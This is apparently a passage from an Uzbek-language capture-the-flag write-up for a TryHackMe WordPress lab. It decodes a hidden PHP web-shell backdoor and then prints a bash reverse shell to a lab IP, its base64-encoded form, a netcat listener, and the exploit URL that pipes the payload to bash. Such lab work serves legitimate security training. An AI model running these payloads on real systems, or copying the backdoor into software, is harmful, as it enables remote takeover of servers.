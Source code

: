 Qiziq CyberChiefdan foydalanib koddan chiqarib ko'rish kerak.

Dekodlangan ko'rinishi:

```

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```

Qiziq)

GPT Brat:

```
Bu yozilganlar ASCII escape code (yoki Python’dagi \xNN shaklidagi hexadecimal) ko‘rinishidagi belgilar ketma-ketligidir. Uni oddiy matnga dekod qilsak:

1. \143\x6d\x64
Bu \x formatidagi ASCII kodlar:

\143 → c

\x6d → m

\x64 → d

✅ Natija: cmd

2. \143\155\x64
Bu aralash shakl (\NN va \xNN):

\143 → c

\155 → m

\x64 → d

✅ Natija: cmd
```

shunda **wp-admin**'da cmd nomli parametr bor va unga base 64 ko'rinishida buyruq joylay olamiz).

Nega base64? Filter bo'lsa aylanib o'tish uchun)

Reverse Shell tayyorlash:

Bash Reverse shell:

```
bash -c 'bash -i >& /dev/tcp/10.8.24.135/4444 0>&1'
```

Base64 kodlash:

```
mete@sec> echo "bash -c 'bash -i >& /dev/tcp/10.8.24.135/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI0LjEzNS80NDQ0IDA+JjEnCg==
```

Reverse shellni qabul qilish:

```
nc -lvnp 4444
```

So'rov yuborish:

```
http://www.smol.thm/wp-admin/index.php?cmd=echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI0LjEzNS80NDQ0IDA+JjEnCg==" | base64 -d | bash
```

